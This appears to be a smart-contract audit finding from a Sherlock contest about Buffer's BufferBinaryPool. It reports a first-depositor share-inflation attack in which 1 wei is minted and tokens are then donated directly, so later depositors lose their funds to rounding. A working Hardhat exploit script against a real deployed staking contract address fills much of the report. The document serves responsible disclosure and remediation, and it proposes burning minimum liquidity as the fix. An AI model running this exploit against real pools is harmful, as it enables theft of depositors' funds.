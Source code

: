 gandu

high

# Manipulation of LPTOKEN(Buffer LP Token) when totalSupply is zero can lead to implicit minimum deposit amount and loss of user funds due to rounding errors

---
name: Audit item
about: These are the audit items that end up in the report
title: "Manipulation of LPTOKEN(Buffer LP Token) when totalSupply is zero can lead to implicit minimum deposit amount and loss of user funds due to rounding errors"
labels: "Critical Bug"
assignees: "buffer"
---

## Summary
- When totalSupply is zero an attacker goes ahead and executes the following steps
  - 1.The attacker calls [provide](https://github.com/sherlock-audit/2022-11-buffer/blob/main/contracts/contracts/core/BufferBinaryPool.sol#L102) function of bufferBinnerPool Contract with 1 Wei underlying tokens(tokenX) to mint LPToken(BLP)
  - 2.They will get 1wei of the underlying token amount of LPToken(BLP)
  - 3.They transfer z underlying tokens directly to bufferBinnerPool contract address.
        - This leads to 1 wei of LPToken(BLP) worth z (+ some small amount)
      - Attacker won't have any problem making this z as big as possible as they have all the claim to it as a holder of 1 Wei of LPToken(BLP)
## Vulnerability Detail
- This attack has two implications
  - 1.The first deposit can be front run and stolen
    - Let's assume there is a first user trying to mint some LPToken(BLP) using their k*z underlying tokens
    - An attacker can see this transaction and carry out the above-described attack making sure that k<1.
    - This leads to the first depositor getting zero LPToken(BLP) for their k*z underlying tokens. All the tokens are redeemable by the attacker using their 1 wei of LPToken.
  - 2.Implicit minimum Amount and funds lost due to rounding errors
    - If an attacker is successful in making 1 wei of LPToken(BLP) worth z underlying tokens and a user tries to mint LPToken(BLP) using k* z underlying tokens then,
      - If k<1, then the user gets zero LPToken(BLP) and all of their underlying tokens get proportionally divided between LPToken(BLP) holders
        - This leads to an implicit minimum amount for a user at the attacker's discretion.
      - If k>1, then users still get some LPToken(BLP) but they lose (k- floor(k)) * z) of underlying tokens which get proportionally divided between LPToken(BLP) holders due to rounding errors.
    - This means that for users to not lose value, they have to make sure that k is an integer.
- **Main Reason**:
  - Calculating the [totalTokenXBalance()](https://github.com/sherlock-audit/2022-11-buffer/blob/main/contracts/contracts/core/BufferBinaryPool.sol#L411) variable using a balance(address(this)) while minting token, so the amount attacker will transfer is also calculated. And [totalTokenXBalance()](https://github.com/sherlock-audit/2022-11-buffer/blob/main/contracts/contracts/core/BufferBinaryPool.sol#L230) function is the denominator in the mint variable. 

- **Maths**:
here BalanceOF(address(this)) == X + 1Wei now mint token will be :
  - amount/BalanceOF(address(this)
  - = Y/(X+1wei) (here denominator is greater than numerator ) = 0.something
  - = 0 (solidity round of math)


## Impact
- this leads to the infinity amount of the user funds lost. also BufferBinaryPool contract is pool contract so that impecting other upcoming pool too.

## Code Snippet
**adding the bug code explanation for the [bufferStaking](https://arbiscan.io/address/0x314215b08cbc14396b11de9b0246013777c9a92b) Contract they has the same issue.**
```javascript
const { ethers } = require("hardhat");



async function main() {


    let user;
    [user, ] = await ethers.getSigners();
    let underlyingABI = [
        "function balanceOf(address _user) view returns (uint256)",
        "function decimals() external view returns(uint8)",
        "function name() external view returns(string)",
        "function approve(address spender, uint256 amount) external returns (bool)",
        "function transfer(address recipient, uint256 amount) external returns (bool)",
        "function totalSupply() external view returns (uint256)"
    ]

    let vaultABI = [
        "function stakeBfr(uint256 _amount) external",
        "function balanceOf(address _user) view returns (uint256)",
        "function totalSupply() external view returns (uint256)",
        "function totalUnderlying() external view returns (uint256)"

    ];
    const provider = new ethers.providers.JsonRpcProvider("http://127.0.0.1:8545/");

    // Getting vault instance
    const vault = new ethers.Contract("0x314215b08cbc14396b11de9b0246013777c9a92b", vaultABI, provider);
    // getting underlying instance 
    const underlying = new ethers.Contract("0x1A5B0aaF478bf1FDA7b934c76E7692D722982a6D", underlyingABI, provider);
    const mintToken = new ethers.Contract("0x314215b08cbc14396b11de9b0246013777c9a92b", underlyingABI, provider);


    // Impersonating account which has some underlying tokens
    await hre.network.provider.request({
        method: "hardhat_impersonateAccount",
        params: ["0xb66127377ff3618b595177b5e84f8ee9827cd061"], 
      });

    const attacker = await ethers.getSigner("0xb66127377ff3618b595177b5e84f8ee9827cd061");

    // Getting some eth
    await ethers.provider.send("hardhat_setBalance", [
        attacker.address,
        "0x1158e460913d00000", // 20 ETH
    ]);
    if(await mintToken.balanceOf(attacker.address) == 0 ) {
        console.log('===============================================');
        const attackerBalance = await underlying.balanceOf(attacker.address);
        const userLPbalance = await mintToken.balanceOf(user.address);
        console.log("attacker's underlying balance before attack:", attackerBalance);
        console.log("user's balance:",userLPbalance )
        // Transferring some underlying tokens to user
        await underlying.connect(attacker).transfer(user.address, 60000000);
        const userBalance = await underlying.balanceOf(user.address);
        
        console.log("user's underlying balance before attack:", userBalance)     
        // Approving
        await underlying.connect(attacker).approve(vault.address, ethers.utils.parseEther('1'), {gasLimit: 2300000});
        await underlying.connect(user).approve(vault.address,ethers.utils.parseEther('1'), {gasLimit: 2300000});
        console.log('===============================================');
        console.log('Step 1: Attacker Depositing 1 wei amount of Joe token to mint some xJoe');
        console.log("balance of before contract", await underlying.balanceOf(attacker.address));
        await vault.connect(attacker).stakeBfr(1, {gasLimit: 2300000});
        console.log("balance of after contract", await underlying.balanceOf(attacker.address));
        console.log("balance of minttoken should be 1 wei ", await mintToken.balanceOf(attacker.address));
        console.log("balance of contract", await underlying.balanceOf(vault.address));
    
        console.log('Attacker total underlying balance after deposit: ', await underlying.balanceOf(attacker.address));
        
        console.log('===============================================');
        console.log('Step 2: Transferring underlying directly to mintToken, z = 60000000');
        await underlying.connect(attacker).transfer(vault.address, 60000000, {gasLimit: 23000000});
        console.log("total supply while transfering the assets", await underlying.balanceOf(vault.address));
        console.log("balance of contract", await underlying.balanceOf(vault.address));

        console.log('===============================================');
        console.log('Attacker 2nd time Depositing with less than z after attack....'); // these amount will as big as attacker want 
        await vault.connect(user).stakeBfr( 60000000, {gasLimit: 2300000});
        const UserLPBalance = await mintToken.balanceOf(user.address);
        console.log("balance of user minttoken", UserLPBalance);
        // consider attacker as a new depositor 
        if(UserLPBalance == 0){
            console.log("Attack is successful")
        }
        else {
            console.log("Failed");
        }
    }

}

main()
    .then(() => process.exit(0))
    .catch((error) => {
        console.error(error);
        process.exit(1);
    })


```
**fork Blocknumber : 26788007**
## Tool used
- Manual Review

## Recommendation
I like how [BalancerV2](https://github.com/balancer-labs/balancer-v2-monorepo/blob/master/pkg/pool-utils/contracts/BasePool.sol#L269-L283) and [UniswapV2](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L121) do it. some minimum amount of pool tokens get burnt when the first mint happens. 
